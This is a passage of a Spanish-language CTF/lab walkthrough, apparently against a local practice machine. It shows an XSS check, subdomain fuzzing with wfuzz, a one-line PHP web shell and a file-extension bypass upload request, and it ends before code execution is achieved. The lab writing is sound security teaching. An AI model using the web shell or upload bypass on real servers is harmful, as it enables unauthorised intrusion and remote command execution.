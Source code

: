 Si cuando dejemos pasar la respuesta sale en color **rojo** hemos logrado aconteser un **XSS**
Quitamos el modo **Intercept** para que sea recivida la respuesta del servidor, Logrando con exito un **XSS** Ya que en la respuesta llego de color **rojo** como lo habiamos especificado
Intentando ganar acceso robando la cookie de sesion no obtuvimos exito ya que necesitamos interaccion con el usuario:

Ahora volveremos a **fuzzer** por subdominios:
```bash
wfuzz -c -t 200 -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -H "Host:FUZZ.crosswords.5eek3r.dl" -u 172.17.0.2 --hl=10,368
```

Tenemos un nuevo subdominio:
```bash
000000259:   200        103 L    189 W      2906 Ch     "admin"
```

Ahora agregamos este nuevo dominio a nuestro archivo: **/etc/hosts**
```bash
172.17.0.2 admin.crosswords.5eek3r.dl
```

Ingresando a la nueva **URL** nos encontramos con un panel administrativo que nos permite la carga de un archivo, Ahora si no valida la subida nos aprovecharemos para subir un archivo malicioso para ganar acceso a la maquina:
```bash
http://admin.crosswords.5eek3r.dl/
```

Crearemos un archivo: **cmd.php** que contendra lo siguiente:
```php
<?php
  system($_GET["cmd"]);
?>
```

Cuando le damos a **subirArchivo** no lo permite, Ya que solo podemos subir archivos **HTML**
Volvemos a interceptar la peticion para intentar un ataque de extensiones para el archivo, Y lograr colarlo al servidor:
[PHP Extensiones](https://book.hacktricks.wiki/en/pentesting-web/file-upload/index.html?highlight=php%20extension#bypass-file-extensions-checks) De aqui sacareamos las extensiones para realizar el ataque:
Logrando subir un archivo: **php2** pero aun no sabemos donde se esta almacenando:
```bash
Content-Disposition: form-data; name="upload"; filename="cmd.php2"
Content-Type: application/x-php

<?php
  system($_GET["cmd"]);
?>
```

Ahora sabemos que lo sube en esta ruta, Pero tenemos que encontra una extension que si ejecute el codigo:
```bash
http://crosswords.5eek3r.dl/cmd.php2
```
